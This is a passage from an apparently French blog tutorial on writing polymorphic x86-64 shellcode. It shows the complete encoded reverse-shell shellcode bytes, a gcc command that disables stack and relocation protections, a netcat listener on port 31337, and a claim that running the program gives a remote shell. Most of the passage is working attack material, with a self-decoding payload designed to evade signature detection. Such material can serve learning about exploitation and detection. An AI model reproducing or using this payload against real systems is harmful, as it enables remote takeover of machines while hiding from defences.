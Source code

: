 ```shell
Shellcode final : \xeb\x5c\x5e\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x06\xc0\x0c\x1e\x03\xeb\x07\xc0\x0c\x1e\x05\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xe4\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\xb1\x66\xfe\xc2\x80\xfa\x02\x74\x0b\x80\xfa\x03\x74\x0c\x80\x2c\x1e\x0d\xeb\x0d\x80\x34\x1e\x07\xeb\x07\x80\x04\x1e\x12\x48\x31\xd2\x80\xc3\x01\x80\xe9\x01\x71\xd9\xff\xe6\xe8\x9f\xff\xff\xff\xab\x0f\x7f\xe2\x1b\x8a\xab\xaf\xba\x6e\x6b\x1e\xaa\xc6\x06\xaa\xb1\x9c\x6a\x36\x7f\xaa\xb1\xbd\x6a\x16\x87\xaa\xb1\xd5\xed\xc5\xef\x42\x7a\xe3\xfe\xb6\xff\xaa\x54\x44\x89\xe9\xbb\x9a\x7a\xe3\x6e\xf6\xc0\x83\x10\xc6\xf1\x3e\xf4\xc5\x40\x7e\x6a\x3f\xa5\xb7\x31\xbf\x90\xe8\x67\x7a\xbd\xe1\xe0\x40\xb1\x99\x41\xa3\x7b\xcd\xe2\x87\xa3\xca\xaa\xc6\x27\x6c\x82\xc6\xf1\xba\xb1\x53\xd9\x42\xaa\xc6\x75\xb7\xe1\xbf\x90
```

Nous pouvons compiler notre code :
```shell
gcc -z execstack -fno-stack-protector -fno-pie -z norelro -fPIC testShellcode.c -o testShellcode
```

Les flags de compilations indiqués permettent de supprimer des protections. Cependant, je ne rentrerais pas dans ces détails ici puisque ce n'est pas l'objectif du post.

Nous devons ouvrir un port sur notre machine à l'adresse que nous avons indiquée dans notre programme :
```shell
nc -l 127.1.10.100 31337 -v
```

Puis, nous exécutons notre programme :
```shell
./testShellcode 
```

Nous obtenons alors une connexion entrante sur notre port et nous pouvons exécuter les mêmes commandes que dans un terminal.

Notre shellcode polymorphique est fonctionnel !

Vous pouvez retrouver la totalité du projet sur mon GitHub : [https://github.com/Nyxott/ShellcodePolymorphique](https://github.com/Nyxott/ShellcodePolymorphique).

